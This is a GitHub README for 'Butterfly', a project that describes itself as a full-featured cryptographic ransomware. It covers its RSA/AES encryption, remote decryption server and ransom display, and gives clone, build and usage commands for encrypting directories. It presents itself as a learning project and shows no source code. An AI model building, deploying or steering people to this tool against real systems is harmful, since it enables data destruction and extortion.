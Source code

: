 # Butterfly
[![Build Status](https://jenkins.bierschi.com/buildStatus/icon?job=butterfly%2Fmaster)](https://jenkins.bierschi.com/job/butterfly/job/master/)
[![License: MIT](https://img.shields.io/badge/License-MIT-green.svg)](https://github.com/bierschi/butterfly/blob/master/LICENSE)
[![Linux](https://svgshare.com/i/Zhy.svg)](https://svgshare.com/i/Zhy.svg)
[![Windows](https://svgshare.com/i/ZhY.svg)](https://svgshare.com/i/ZhY.svg)
<!--[![macOS](https://svgshare.com/i/ZjP.svg)](https://svgshare.com/i/ZjP.svg)-->

<p align="left">
<img src="images/butterfly.png" width="300" height="300">
</p>

Butterfly is a cryptographic ransomware with the following features

- Hybrid Encryption (RSA Asymmetric/AES Symmetric Encryption) :heavy_check_mark:
- Offline Encryption :heavy_check_mark:
- Supports multiple Operating Systems (Linux :heavy_check_mark:, Windows :arrows_counterclockwise:, MacOS :x:)
- Supports over 300 File Extensions :heavy_check_mark:
- Webserver [bflyServerApp](https://github.com/bierschi/butterfly/tree/master/webserver) for a secure remote decryption :heavy_check_mark:
- Ransom Visualization with Browser :heavy_check_mark: GUI :x: Wallpaper :x:
- Connection to the TOR Network :arrows_counterclockwise:
- Bitcoin Payments :x:

## Disclaimer

Butterfly is a full-featured cryptographic ransomware application that irrevocably encrypts your data. This means careless
use leads to permanent data loss (No liability is accepted).
The main purpose for the butterfly project was just to build knowledge related to the increased occurrence of ransomwares. <br>

:exclamation: **Butterfly was never supposed to harm or threat other computers** :exclamation:

## Dependencies

Install compilers for the toolchain
<pre><code>
# GCC on Ubuntu
sudo apt-get install gcc g++

# Windows cross compiler for Ubuntu
sudo apt-get install mingw-w64
</code></pre>

Install openssl and boost filesystem libraries
<pre><code>
sudo apt-get install -y libssl-dev libboost-filesystem-dev
</code></pre>

If you enable the logging definition with cmake you also need to install the boost logging library
<pre><code>
sudo apt-get install -y libboost-log-dev
</code></pre>

## Build Butterfly

Build butterfly
<pre><code>
# Clone the repo and create the build/ folder
git clone https://github.com/bierschi/butterfly.git && cd butterfly
mkdir build && cd build

# Execute cmake with options
cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake ../
(cmake -DCMAKE_TOOLCHAIN_FILE=../linux.cmake -DUNITTESTS=ON -DLOGGING=ON ../)

# Build the binary
make
</code></pre>

CMake Arguments 
<pre><code>
-DUNITTESTS=ON   # Enables the Unit Tests
-DLOGGING=ON     # Enables the boost logging framework
</code></pre>

## Usage and Examples

Print the available arguments for butterfly
<pre><code>
./butterfly --help
</code></pre>

<pre><code>
butterfly is a cryptographic ransomware

Usage: 
	butterfly --dir /home/butterfly/data/
	butterfly --dir /home/butterfly/data/ --protected

	butterfly --encrypt /home/butterfly/data/ 
	butterfly --decrypt /home/butterfly/data/ 

	butterfly --decrypt /home/butterfly/data/ --key /home/butterfly/butterfly/masterkeys/SPrivateRSA.pem

Options:
	-d,   --dir         Directory path to start the cryptographic ransomware (Encryption+Visualization+Payment+Decryption)
	-enc, --encrypt	    Encrypts all files in provided directory path and shows the ransom visualization
	-dec, --decrypt	    Decrypts all files in provided directory path, if the request to the remote server was successful
	-k,   --key         Masterkey for the decryption, if the remote server is not used (Corresponds to the embedded server public key)
	-p,   --protected   Saves all key files to the system (For manual decryption)
	-c,   --config	    Logger config path
	-v,   --version	    Show version information and quit
	-h,   --help	    Show this message and quit

butterfly homepage at: https://github.com/bierschi/butterfly
</code></pre>

Test the full functionalities of `butterfly`
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem

# Run the butterfly binary with --dir argument
./butterfly --dir /home/butterfly/data/
</code></pre>

Test the encryption + decryption mechanism separately (+ with remote decryption)
<pre><code>
# Run the bflyServerApp for remote decryption
bflyServerApp --host 127.0.0.1 --port 8080 --key ../masterkeys/SPrivateRSA.pem


# Start only the encryption
./butterfly --encrypt /home/butterfly/data

# Start only the decryption
./butterfly --decrypt /home/butterfly/data
</code></pre>

## Unit Tests

Install GTest
<pre><code>
sudo apt-get install libgtest-dev
cd /usr/src/gtest
sudo cmake CMakeLists.txt
sudo make

#copy or symlink libgtest.a and libgtest_main.a to your /usr/lib folder
sudo cp *.a /usr/lib
</code></pre>

Enable the Unit Tests with 
<pre><code>
cmake ../ -DUNITTESTS=ON 
</code></pre>

List all tests
<pre><code>
./butterflyUnitTests --gtest_list_tests
</code></pre>

Run the `butterfly` units
<pre><code>
./butterflyUnitTests
</code></pre>

## Changelog
All changes and versioning information can be found in the [CHANGELOG](https://github.com/bierschi/butterfly/blob/master/CHANGELOG.md)

## License
Copyright (c) 2021 Bierschneider Christian. See [LICENSE](https://github.com/bierschi/butterfly/blob/master/LICENSE)
for details